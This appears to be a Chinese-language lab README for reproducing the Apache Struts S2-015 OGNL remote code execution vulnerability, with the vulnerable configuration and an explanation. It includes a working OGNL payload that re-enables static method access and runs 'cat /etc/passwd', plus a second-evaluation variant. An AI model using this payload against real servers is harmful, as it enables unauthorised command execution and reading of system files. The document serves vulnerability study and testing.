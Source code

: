 # S2-015 远程代码执行漏洞

影响版本: 2.0.0 - 2.3.14.2

漏洞详情: 

 - http://struts.apache.org/docs/s2-015.html

## 测试环境搭建

```
docker-compose build
docker-compose up -d
```

## 原理与测试

漏洞产生于配置了 Action 通配符 *，并将其作为动态值时，解析时会将其内容执行 OGNL 表达式，例如：

```xml
<package name="S2-015" extends="struts-default">
    <action name="*" class="com.demo.action.PageAction">
        <result>/{1}.jsp</result>
    </action>
</package>
```

上述配置能让我们访问 name.action 时使用 name.jsp 来渲染页面，但是在提取 name 并解析时，对其执行了 OGNL 表达式解析，所以导致命令执行。在实践复现的时候发现，由于 name 值的位置比较特殊，一些特殊的字符如 / " \ 都无法使用（转义也不行），所以在利用该点进行远程命令执行时一些带有路径的命令可能无法执行成功。

还有需要说明的就是在 Struts 2.3.14.1 - Struts 2.3.14.2 的更新内容中，删除了 SecurityMemberAccess 类中的  setAllowStaticMethodAccess 方法，因此在 2.3.14.2 版本以后都不能直接通过 `#_memberAccess['allowStaticMethodAccess']=true` 来修改其值达到重获静态方法调用的能力。

这里为了到达执行命令的目的可以用 kxlzx 提到的调用动态方法 (new java.lang.ProcessBuilder('calc')).start() 来解决，另外还可以借助 Java 反射机制去间接修改：

```
#context['xwork.MethodAccessor.denyMethodExecution']=false,#m=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#m.setAccessible(true),#m.set(#_memberAccess,true)
```

可以构造 Payload 如下：

```
${#context['xwork.MethodAccessor.denyMethodExecution']=false,#m=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#m.setAccessible(true),#m.set(#_memberAccess,true),#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('cat \u002fetc\u002fpasswd').getInputStream()),#q}
```

直接回显：

![](01.png)

除了上面所说到的这种情况以外，S2-015 还涉及一种二次引用执行的情况：

```xml
<action name="param" class="com.demo.action.ParamAction">
    <result name="success" type="httpheader">
        <param name="error">305</param>
        <param name="headers.fxxk">${message}</param>
    </result>
</action>
```

这里配置了 `<param name="errorMessage">${message}</param>`，其中 message 为 ParamAction 中的一个私有变量，这样配置会导致触发该 Result 时，Struts2 会从请求参数中获取 message 的值，并在解析过程中，触发了 OGNL 表达式执行，因此只用提交 %{1111*2} 作为其变量值提交就会得到执行。这里需要注意的是这里的二次解析是因为在 struts.xml 中使用 ${param} 引用了 Action 中的变量所导致的，并不针对于 type="httpheader" 这种返回方式。

![](02.png)